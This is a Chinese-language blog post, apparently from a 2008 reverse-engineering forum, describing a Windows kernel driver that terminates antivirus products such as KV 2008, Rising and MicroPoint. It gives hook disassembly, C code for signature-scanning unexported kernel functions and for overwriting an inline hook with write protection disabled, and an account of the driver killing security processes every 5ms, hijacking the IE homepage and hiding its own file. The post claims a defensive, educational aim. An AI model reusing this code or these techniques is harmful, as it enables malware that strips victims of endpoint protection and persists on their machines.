






# 干掉 KV 2008, Rising 等大部分杀软

> 原文：[`www.pediy.com/kssd/pediy10/61762.html`](https://www.pediy.com/kssd/pediy10/61762.html)

**前言:**  
写这篇文章不是为了传播病毒技术,而是让广大的电脑安全爱好者对病毒常用的伎俩有一个比较清楚的认识,才能更好的防范. 写的很菜,老鸟飘过~  
**主题:**  
利用驱动结束掉大部分的安全软件(eg. KV 2008, 瑞星,微点, 360),禁止一些 ARK(反 rootkits 安全工具)的运行.(当然,不考虑主动防御如何禁止驱动的加载,现在前提是驱动已经加载.所以只讨论一个层面)  
   
**sudami \[sudami@163.com\]**  
[**http://hi.baidu.com/sudami**](http://hi.baidu.com/sudami)  
   
**正文:**  
   
这段时间机器狗,磁碟机来势汹汹,手段无所不用其极. 其实它们的实现不是什么困难的事,只是病毒作者用了很多猥亵手段,投入了大量的精力. 于是,偶琢磨着写个小程序玩一下:  
   
**<一> 对 KV 2008 的分析**  
ps: R3 下 Kill 进程已经被炉子牛做的差不多了(万一**ZwDulplicatXXX**被挂了就失效了),所以略过~~~  
   
KV 2008 前段时间鼓吹 IS 结束掉它,其实没什么神秘的地方.好多牛已经讨论过了.驱动下结束它很简单.打开 RKU 扫描一下, 为了保护自己的进程, 江民做了 3 处 inline hook, 3 处 SSDT HOOK  
  
  
  
   
SSDT 15 秒恢复 1 次,其中的**NtTerminateProcess**恢复更快,基本是 5ms 左右(**DPC**)  
   
①处理方法: **恢复掉关键的一处 inline hook KeInsertQueueApc 即可**  
   
②具体细节:  
\--------------------------------------------  
(1)  
KV2008 的 inline hook -- **ObOpenObjectByPointer**  
防止打开其进程  
   
!ObOpenObjectByPointer:  
8056cbc2 8bff mov edi,edi  
8056cbc4 e967e59c00 jmp 80f3b130 ;往下要恢复 15 字节的内容  
8056cbc9 94 xchg eax,esp  
8056cbca 0000 add byte ptr \[eax\],al  
8056cbcc 00538b add byte ptr \[ebx-75h\],dl  
8056cbcf 5d pop ebp  
8056cbd0 085657 or byte ptr \[esi+57h\],dl  
|  
| 恢复为下面的  
|  
nt!ObOpenObjectByPointer:  
8089fa62 8bff mov edi,edi  
8089fa64 55 push ebp  
8089fa65 8bec mov ebp,esp  
8089fa67 81ec94000000 sub esp,94h  
8089fa6d 53 push ebx  
8089fa6e 8b5d08 mov ebx,dword ptr \[ebp+8\]  
8089fa71 56 push esi  
8089fa72 57 push edi  
   
\--------------------------------------------  
(2)  
KV2008 的 inline hook -- **KeInsertQueueApc**  
防止插 APC 终止其进程  
   
nt!KeInsertQueueApc:  
804e6411 8bff mov edi,edi  
804e6413 e9286da500 jmp 80f3d140 ;往下要恢复 7 字节的内容  
804e6418 0c53 or al,53h  
|  
| 恢复为下面的  
|  
nt!KeInsertQueueApc:  
8080ecbf 8bff mov edi,edi  
8080ecc1 55 push ebp   
8080ecc2 8bec mov ebp,esp  
8080ecc4 83ec0c sub esp,0Ch  
8080ecc7 53 push ebx  
   
\--------------------------------------------  
(3)  
KV2008 的 inline hook -- **RtlImageNtHeader**  
防止别人打开指定的 PE 模块  
   
nt!RtlImageNtHeader:  
804f97d5 90 nop ;往下要恢复 26 字节的内容  
804f97d6 90 nop  
804f97d7 90 nop  
804f97d8 90 nop  
804f97d9 90 nop  
804f97da 90 nop  
804f97db 90 nop  
804f97dc 90 nop  
804f97dd 90 nop  
804f97de 90 nop  
804f97df e95cc99f00 jmp 80ef6140  
804f97e4 90 nop  
804f97e5 ff743866 push dword ptr \[eax+edi+66h\]  
804f97e9 813a4d5a7531 cmp dword ptr \[edx\],31755A4Dh  
|  
| 恢复为下面的  
|  
nt!RtlImageNtHeader:  
80822e19 8bff mov edi,edi  
80822e1b 55 push ebp  
80822e1c 8bec mov ebp,esp  
80822e1e 8b5508 mov edx,dword ptr \[ebp+8\]  
80822e21 33c0 xor eax,eax  
80822e23 85d2 test edx,edx  
80822e25 743d je nt!RtlImageNtHeader+0x41 (80822e64)  
80822e27 83faff cmp edx,0FFFFFFFFh  
80822e2a 7438 je nt!RtlImageNtHeader+0x41 (80822e64)  
80822e2c 66813a4d5a cmp word ptr \[edx\],5A4Dh  
80822e31 7531 jne nt!RtlImageNtHeader+0x41 (80822e64)  
   
\-----------------------------  
   
③实践思路：  
   

引用: 1. 得到 KV 2008 的进程句柄  
2. 通过句柄得到 EPROCESS，然后遍历每个 THREAD，结束之。  
\[之前要恢复 inline hook\] 

  
  
ObReferenceObjectByHandle 通过 handle 得到 Object  
**PsLookupProcessByProcessId **通过 ID 得到 Object  
ObOpenObjectByPointer 通过 Object 得到 handle  
  
\-->所以可以绕过 ObOpenObjectByPointer 的 hook,调用 PsLookupProcessByProcessId 得到 KV 2008 的 Object(**也就是间接实现 NtOpenProcess 的一部分**).  
(PsLookupProcessByProcessId 可能被别人 hook 过了,所以比较安全的做法是自己实现这个函数,其实就是在句柄表中找 Object.可参考前人文章)  
  
\--> 对每个 Thread,都是调用**PspTerminateThreadByPointer**.而它调用了 KeInsertQueueApc.故要恢复后再调用.  
  
  
**<二> 搜索未导出的函数地址**  
(1)**得到的 PsGetNextProcessThread 地址**  
  
偶采用的方法比较的笨，首先得到**NtTerminateProcess**的地址，再从中获取 PsGetNextProcessThread。  
  
弊端有 3：  
① 这个函数就是得到一个 EPROCESS 的所有 ETHREAD，完全可以自己实现，只是 BSOD 的几率会增大(实现代码见下)  
  
//  
//  
//  
BOOLEAN  
ReferenceObject(  
PVOID Object   
)  
{  
POBJECT\_HEADER ObjectHeader;  
  
ObjectHeader = (POBJECT\_HEADER)((ULONG)Object - sizeof(OBJECT\_HEADER));  
  
if (ObjectHeader->PointerCount == 0)  
{  
returnFALSE;  
}  
  
**InterlockedIncrement**( &ObjectHeader->PointerCount );  
  
returnTRUE;  
}  
  
//  
// 自己实现 PsGetNextProcessThread   
//  
PETHREAD  
SD\_PsGetNextProcessThread (  
PEPROCESS Process,   
PETHREAD Thread   
)  
{  
PETHREAD FoundThread;  
PLIST\_ENTRY Entry;  
PLIST\_ENTRY ThreadListEntry;  
PLIST\_ENTRY ListHead;  
  
//DbgPrint( "GetNextProcessThread( 0x%08x, 0x%08x )", Process, Thread );  
  
FoundThread = NULL;  
  
if (Thread != NULL) {  
ThreadListEntry = (PLIST\_ENTRY)((ULONG)Thread + ThreadProc);  
Entry = ThreadListEntry->Flink;  
} else {  
ThreadListEntry = (PLIST\_ENTRY)((ULONG)Process + ThreadListHead);  
Entry = ThreadListEntry->Flink;  
}  
  
ListHead = (PLIST\_ENTRY)((ULONG)Process + ThreadListHead);  
  
while (ListHead != Entry) {  
FoundThread = (PETHREAD)((ULONG)Entry - ThreadProc);  
  
if (ReferenceObject( FoundThread )) {  
break;  
}  
  
FoundThread = NULL;  
Entry = Entry->Flink;  
}  
  
if (FoundThread != NULL) {  
ObDereferenceObject( FoundThread );  
}  
  
DbgPrint( "线程地址: \\t0x%08x \\n", FoundThread );  
  
return FoundThread;  
}  
  
② 有人说：“怎么不直接搜索 PsGetNextProcessThread 的特征码？”  
sudami：我 KD 看了下不同的内核，函数因为寄存器的改动变化的比较大，不好定位  
  
③ 有人说：“得到 NtTerminateProcess 的地址可以直接在 SDT 中取得嘛”  
sudami：KV 2008 注册了一个 DPC，5ms 恢复一次对 NtTerminateProcess 的 hook.所以要得到它的原始地址,还得自己读内核文件,在里面找到真实地址,颇为烦琐,于是我就直接搜索它的特征码, 看了一些内核,特征码还算稳定  
  
nt!NtTerminateProcess:  
808b5399 8bff mov edi,edi  
808b539b 55 push ebp  
808b539c 8bec mov ebp,esp  
...  
808b542a c7450822010000 mov dword ptr \[ebp+8\],122h  
808b5431 e8e8a2ffff call nt!PsGetNextProcessThread (808af71e)  
808b5436 8bf0 mov esi,eax.  
  
部分 code 如下:  
  
  
// 经过一系列的读 PE 后，得到一些偏移值。计算 PE 在内存中需要的空间。  
// 为其分配一个非分页内存  
// 将文件的内容都读取到这里  
// 获取文件的大小,申请一块内存来存放它  
//DbgPrint("获取文件的大小,申请一块内存来存放它\\n");  
ZwQueryInformationFile (ntFileHandle, &ioStatus, &fsi, sizeof(FILE\_STANDARD\_INFORMATION), FileStandardInformation);  
  
FileContent = ExAllocatePool (NonPagedPool, fsi.EndOfFile.LowPart);  
  
if (FileContent == NULL)  
{  
ntStatus = STATUS\_UNSUCCESSFUL;  
ZwClose(ntFileHandle);  
  
DbgPrint("ExAllocatePool Error\\n");  
goto End;  
}  
  
byteOffset.LowPart = 0;  
byteOffset.HighPart = 0;  
  
ntStatus = ZwReadFile(ntFileHandle,   
NULL,  
NULL,  
NULL,  
&ioStatus,  
FileContent,  
fsi.EndOfFile.LowPart,  
&byteOffset,  
NULL);  
  
if (!NT\_SUCCESS(ntStatus))  
{  
ZwClose(ntFileHandle);  
ExFreePool(FileContent);  
  
DbgPrint("ZwReadFile 将要读的内容，读到一片非分页内存失败 Error\\n");  
goto End;  
}  
  
if (fsi.EndOfFile.LowPart <= 0)  
{  
ntStatus = STATUS\_NOT\_FOUND;  
ZwClose(ntFileHandle);  
ExFreePool(FileContent);  
DbgPrint("NeedSize <= 0 Error\\n");  
goto End;  
}  
  
GetHeaders (FileContent, &pfh, &poh, &psh);  
  
//DbgPrint("psh: %08lx\\n", (PVOID)psh);  
  
//DbgPrint("start search....\\n");  
// 开始搜索。。。=.=!  
for (i = 0; i < fsi.EndOfFile.LowPart; i++)   
{  
if ( (FileContent\[i\] == 0x8B) && (FileContent\[i+1\] == 0xFF) && (FileContent\[i+2\] == 0x55) && (FileContent\[i+3\] == 0x8B) &&  
(FileContent\[i+4\] == 0xEC) && (FileContent\[i+5\] == 0x83) && (FileContent\[i+6\] == 0xEC) && (FileContent\[i+7\] == 0x10) &&  
(FileContent\[i+8\] == 0x53) && (FileContent\[i+9\] == 0x56) && (FileContent\[i+10\] == 0x57) && (FileContent\[i+11\] == 0x64) &&  
(FileContent\[i+12\] == 0xA1) && (FileContent\[i+13\] == 0x24) && (FileContent\[i+14\] == 0x01) && (FileContent\[i+15\] == 0x00) &&  
(FileContent\[i+16\] == 0x00) && (FileContent\[i+17\] == 0x83) && (FileContent\[i+18\] == 0x7D) && (FileContent\[i+19\] == 0x08) &&  
(FileContent\[i+20\] == 0x00) && (FileContent\[i+21\] == 0x8B) && (FileContent\[i+22\] == 0xF8) && (FileContent\[i+23\] == 0x8B) &&  
(FileContent\[i+24\] == 0x47) && (FileContent\[i+25\] == 0x44) && (FileContent\[i+26\] == 0x89) && (FileContent\[i+27\] == 0x45) &&  
(FileContent\[i+28\] == 0xF0) && (FileContent\[i+29\] == 0x0F) && (FileContent\[i+30\] == 0x84) )  
{  
//DbgPrint(" 进来了~\\n");  
  
DbgPrint("文件偏移 i: %08lx\\n", (PVOID)i);  
// 找到了  
sudami\_1 = Offset2RVA( i, psh, pfh->NumberOfSections );  
  
//DbgPrint("RVA -- sudami\_1 : %08lx\\n", (PVOID)sudami\_1);  
  
if (sudami\_1 == 0) {  
DbgPrint("sudami\_1 == 0 Error\\n");  
goto NotFound;  
}  
  
if (sudami\_1 > SizeOfImage) {  
DbgPrint("sudami\_1 > SizeOfImage Error\\n");  
goto NotFound;  
}  
  
sudami\_1 += ModuleBase;  
  
if (!MmIsAddressValid((PVOID)sudami\_1 )) {  
DbgPrint("!MmIsAddressValid((PVOID)sudami\_1 ) Error\\n");  
goto NotFound;  
}  
  
NtTerminateProcess = (PUCHAR)sudami\_1;  
DbgPrint( "NtTerminateProcess:\\t0x%08x\\n", (ULONG)NtTerminateProcess );  
  
ExFreePool(FileContent);  
ZwClose(ntFileHandle);  
  
goto End;  
}   
  
然后就好做了,下面是个很科普的函数:  
  
VOID XPGetPsGetNextProcessThread()  
{  
PUCHAR cPtr;  
PUCHAR addr;  
int i = 0;  
  
//DbgPrint("开始找 PsGetNextProcessThread \\n");  
  
if( NULL == NtTerminateProcess) {  
DbgPrint( "NtTerminateProcess NULL == \\n" );  
return;  
}  
  
for (cPtr = (PUCHAR)NtTerminateProcess;   
cPtr < ((PUCHAR)NtTerminateProcess + PAGE\_SIZE);   
cPtr++) {  
  
//DbgPrint("cPtr: \\t0x%08x \\n", cPtr);  
if (\*cPtr == 0xE8/\* && \*(PUSHORT)(cPtr + 5) == 0x8BF0 && \*(PUSHORT)(cPtr + 7) == 0x85F6\*/) {  
i++;  
//DbgPrint("--- 进来了--- \\n");  
  
if( 3 == i ) {  
g\_PsGetNextProcessThread =   
(My\_PsGetNextProcessThread)(\*(PULONG)(cPtr + 1) + (ULONG)cPtr + 5);  
DbgPrint( "PsGetNextProcessThread:\\t0x%08x\\n", (ULONG)g\_PsGetNextProcessThread );  
  
break;  
}  
}  
}  
}  
  
(2)**得到的 PspTerminateThreadByPointer 地址**  
  
前言: 微点连 PsTerminateSystemThread 也 inline hook，真无耻~  
nt!PsTerminateSystemThread:  
808aa35f 8bff movedi,edi  
808aa361 55 pushebp  
808aa362 8bec movebp,esp  
808aa364 64a124010000 moveax,dwordptrfs:\[00000124h\]  
808aa36a f6804802000010 testbyteptr \[eax+248h\],10h  
808aa371 0f84ea300800 je nt!PsTerminateSystemThread+0x14 (8092d461)  
808aa377 ff7508 pushdwordptr \[ebp+8\]  
808aa37a 50 pusheax  
808aa37b e8a2e9cf77 call f85a8d22 ; 被 inline hook 了  
;  
; 本来是 call nt!PspTerminateThreadByPointer (XXXXX),显然跳到了微点的处理  
; 函数中, 若从这里找未导出的 PspTerminateThreadByPointer 就不爽了, 所以要换  
; 从其他的导出函数中搜索(前提是若你想调用 PspTerminateThreadByPointer 函数)  
; -- sudami 08/03/16  
;  
808aa380 5d popebp  
808aa381 c20400 ret 4  
  
  
整理下思绪,直接在内部调用过 PspTerminateThreadByPointer 的函数有 4 个:  
**NtTerminateProcess、NtTerminateThread、PspTerminateProcess** \[未导出\]  
**PsTerminateSystemThread** \[已导出\]  
  

引用:    
1.> 对于 NtTerminateProcess, 还得先得到**ZwTerminateProcess**的地址(已导出),取出其服务号,再到 SST 中找;而且若被其他安全软件 hook 了,找到的还不是原始地址.  
恢复 SSDT 也不是保险的方法, eg: KV 2008 注册了个 DPC,每隔 5ms 恢复一次对 NtTerminateProcess 的 hook,所以基本不可能得到原始的地址.   
或者你可以读 ntoskrnl.exe,重定位后找到原始的 NtTerminateProcess.这样是可行的,不过比较繁琐~ 

  

引用:    
2.> PsTerminateProcess 是对 PspTerminateProcess 的包装.而它们都没有在已导出的函数中调用过.故此路不通. 

  

引用:    
3.> 搜索 PsTerminateSystemThread 应该是最简单的,可恰恰 MicroPoint 又在里面做了手脚. 

  
综上,要让自己的驱动能稳定的对抗现行的各大杀软, 上面的方法都不可取.  
\[前提: 你希望得到 PspTerminateThreadByPointer 的地址,以便强行关闭现行的各大杀软(KV 2008 除外)\]  
  
先看下面这个搜索的函数:  
  
VOID XPGetPspTerminateThreadByPointer()  
{  
PUCHAR cPtr;  
  
DbgPrint( "PsTerminateSystemThread:\\t0x%08x", PsTerminateSystemThread );  
  
for (cPtr = (PUCHAR)PsTerminateSystemThread;   
cPtr < (PUCHAR)PsTerminateSystemThread + PAGE\_SIZE;   
cPtr++)  
{  
if (\*cPtr == 0xE8 && \*(PUSHORT)(cPtr + 5) == 0xC25D)   
{  
PspTerminateThreadByPointer =   
(PSPTERMINATETHREADBYPOINTER)(\*(PULONG)(cPtr + 1) + (ULONG)cPtr + 5);  
DbgPrint( "PspTerminateThreadByPointer:\\t0x%08x",   
(ULONG)PspTerminateThreadByPointer );  
break;  
}  
}  
}  
  
若机器装了 MP,就失败了,BSOD 是显而易见的.  
  
这样一分析,到是原来简便的方法不稳定了,那就不妨试下最笨的方法 -- 读取 ntoskrnl.exe(或者其他内核)到一块 NonPagedpool 中,在里面搜索特征码.可以搜索函数头,也可以搜索函数体. 但是操作系统的版本和补丁问题,这样找起来也不是很稳定.  
  
偶机器是**ntoskrnl.exe**  
  
lkd> dd PspTerminateThreadByPointer  
8089c971 8b55ff8b 0cec83ec fff84d83 7d8b5756  
8089c981 48b78d08 f6000002 45c74006 f0bdc0f4  
8089c991 ae850fff 64000909 000124a1 0ff83b00  
8089c9a1 018e0985 40c03300 ff0609f0 18e80c75  
8089c9b1 90fffffd 90909090 2068106a e8808155  
8089c9c1 fff6f4be 0508458b 000001d4 850f0039  
8089c9d1 0003e960 f6f4e4e8 0004c2ff e9344e8d  
8089c9e1 ffffae92 90909090  
  
所以偶是这样做的:** 判断机器有微点,就搜索文件得到地址,否则直接用导出的函数来搜索地址**  
  
(3) **恢复江民的 KeInsertQueueApc inline hook **  
  
BYTE KeInsertQueueApc\_orig\_code\[9\] = { 0x8B, 0xFF, 0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x0C, 0x53 };   
  
//  
// 恢复 KeInsertQueueApc 的 inline hook  
//  
VOID XPRestoreKeInsertQueueApc ()  
{  
PUCHAR addr;  
KIRQL oldIrql;  
  
addr = (PUCHAR) GetFunctionAddr( L"KeInsertQueueApc" );  
  
// 禁止系统写保护，提升 IRQL 到 DPC，然后恢复 KeInsertQueueApc 的 Inline Hook  
WPOFF();  
oldIrql = KeRaiseIrqlToDpcLevel();  
  
// 恢复 KeInsertQueueApc 的前字节  
RtlCopyMemory ( (BYTE\*)addr, KeInsertQueueApc\_orig\_code, 9 );  
  
KeLowerIrql(oldIrql);  
  
WPON();  
  
//DbgPrint("XPRestoreKeInsertQueueApc Success\\n");  
}  
  
  
**<三 运行效果>**  
  
程序运行后:  
**1. 5ms 一次遍历安全软件进程，发现就 kill 掉。很暴力~~~**  
**2. 修改 IE 首页,反复写注册表**  
**3. 隐藏 sudami.sys,文件占炕,防止被删**  
  
  
  
  
  
其实没必要做这么多辅助的东西,只是为了试验下效果. 比如:  
  
1. kill 进程最好自己实现结束进程的全过程，恢复一些必须的 inline hook，每次调用前恢复一次.其实一路写到**PspExitThread**很不稳定, 因为 IRQL,线程调度, 线程等待状态等各种原因,容易 BSOD~ 俺这里偷懒了.  
  
2. 修改 IE 首页就是调用**ZwXXX**系列,一个线程反复的写.和 piaoxue 的驱动差不多. 其实简单的调用一个更底层的函数**CmXXXX**就可以防范了.  
  
3. 隐藏文件,无非是 SSDT hook,只是加了个**KTimer**反复 hook,骗骗菜鸟还行 ;  
文件占炕防止驱动被删, 关掉句柄就可以了.或者用 360 文件粉碎机 --> 重启删除 (若是病毒作者,可以判断是否有安全软件在尝试这种"重启删除"的行为,是则立即删注册表的那个标记,再蓝掉 ,偶不是病毒制造者,所以就不做了)  
  
4. 还有其他的诸如替换 beep.sys, 感染 mpXXX.sys, R3 层加个线程弹网页, 禁用"组策略",autorun.inf 等等,病毒用的很多, 实现起来也不复杂,所以同学们不要觉得很神秘.知道原理就能防患于未然.  
  
\------------------------------------------------------------------------------------------------------  
驱动无壳无花,可 IDA 直接 F5.  
  
附件为测试程序. 请不要在主机上运行. 万一中毒,设置注册表的修改权限为"完全禁止",重启后删除 C:\\WINDOWS\\SYSTEM32\\Driver\\sudami.sys 即可.  
  
  
\---------------------------------------------  
参考资料:  
  
(1) **[搜索未导出的函数地址](http://hi.baidu.com/sudami/blog/item/0f3b49f31766b2cf0a46e083.html)**  
(2) **[**句柄啊，3 层表啊，ExpLookupHandleTableEntry 啊**](http://hi.baidu.com/sudami/blog/item/47b2ac504302f7581038c206.html)**  
(3) [**PsLookupProcessByProcessId 执行流程**](http://hi.baidu.com/sudami/blog/item/7773b71fe4545867f624e4f3.html)  
(4) **[360SuperKill--恢复 FSD 的 IRP 处理函数](http://hi.baidu.com/sudami/blog/item/ffbee31e5687011c413417ea.html)**  
(5) **WRK,ReactOS**  
  
  
**可能因为内核补丁的缘故，在有些机器上会出现没有效果的情况，属正常**

上传的附件
|  || kill\_SecuritySoftware.rar \[解压密码：pediy\]   
 |